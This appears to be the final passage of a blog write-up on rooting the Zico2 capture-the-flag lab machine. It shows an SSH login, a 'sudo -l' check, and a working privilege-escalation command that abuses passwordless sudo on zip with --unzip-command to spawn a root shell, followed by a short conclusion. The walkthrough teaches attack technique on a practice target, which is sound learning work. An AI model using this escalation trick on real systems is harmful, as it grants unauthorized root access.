 Use them to connect via ssh: `ssh zico@192.168.1.17` and enumerate more with a nice TTY shell and job control. `sudo -l` shows that we can use zip or tar combined with sudo without providing a password. 

<img src="/img/blog/zico2/Zico12.png">

This creates a security hole prone to privilege escalation vulnerability! Just make a random file using touch command (`touch exploit`) and zip it using this command:
 ```console
zico@zico:/tmp$ sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"
```

<img src="/img/blog/zico2/Zico13.png">

`sudo - executes as superuser`

`-T - check the file integrity, needs to do some operations which will also execute the next argument --unzip-command (this command grants us a shell)`

`--unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'" - spawns a /bin/sh shell`


## Rooted!


# Conclusion
Sorry for making this blog so lenghty! Sure, it was a long read, but I hope you atleast learnt a thing or two. Props to the author - [Rafael](https://twitter.com/rafasantos5) for making such an awesome machine. It sure was fun!

If you have any questions feel free to reach out to me via my [contact page](https://v3ded.github.io/contact/) or comments below.  
~V3 
